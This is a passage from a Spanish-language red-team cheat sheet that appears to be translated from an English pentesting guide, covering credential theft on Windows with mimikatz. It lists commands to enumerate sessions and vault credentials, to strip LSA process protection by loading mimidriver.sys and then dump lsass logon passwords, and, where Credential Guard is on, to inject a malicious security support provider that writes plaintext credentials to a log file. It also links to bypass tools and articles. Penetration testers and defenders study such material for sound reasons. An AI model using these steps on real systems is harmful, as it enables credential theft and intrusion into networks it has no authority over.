 ```powershell
mimikatz ts::sessions

#Listar credenciales del almacén
mimikatz vault::list
```

:exclamation: ¿Qué ocurre si mimikatz no puede volcar las credenciales debido a los controles de protección LSA?

- LSA como proceso protegido (Omisión del kernel)

```powershell
#Comprueba si LSA se ejecuta como un proceso protegido verificando si la variable "RunAsPPL" está establecida en 0x1
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa

#A continuación, sube el archivo mimidriver.sys desde el repositorio oficial de mimikatz a la misma carpeta que tu archivo mimikatz.exe
#Ahora importamos mimidriver.sys al sistema
mimikatz # !+

#Ahora eliminamos las marcas de protección del proceso lsass.exe
mimikatz # !processprotect /process:lsass.exe /remove

#Finalmente, ejecuta la función logonpasswords para volcar lsass
mimikatz # sekurlsa::logonpasswords
```

- LSA como proceso protegido (sin archivos) Omisión)

- [PPLdump](https://github.com/itm4n/PPLdump)
- [Omisión de la protección LSA en Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland)

- LSA se ejecuta como un proceso virtualizado (LSAISO) mediante Credential Guard

```powershell
#Comprobar si existe un proceso llamado lsaiso.exe en los procesos en ejecución
tasklist |findstr lsaiso

#Si existe, no hay forma de volcar lsass; solo obtendremos datos cifrados. Sin embargo, podemos usar keyloggers o volcadores de portapapeles para capturar datos. #Inyectemos nuestro propio proveedor de soporte de seguridad malicioso en la memoria. Para este ejemplo, usaré el que proporciona mimikatz.
mimikatz # misc::memssp

#Ahora, cada sesión y autenticación de usuario en esta máquina se registrará, y las credenciales de texto plano se capturarán y se guardarán en c:\windows\system32\mimilsa.log
```

- [Guía detallada de Mimikatz](https://adsecurity.org/?page_id=1821)
- [Explorando dos opciones de protección lsass](https://medium.com/red-teaming-with-a-blue-team-mentaility/poking-around-with-2-lsass-protection-options-880590a72b1a)

### Protocolo de Escritorio Remoto
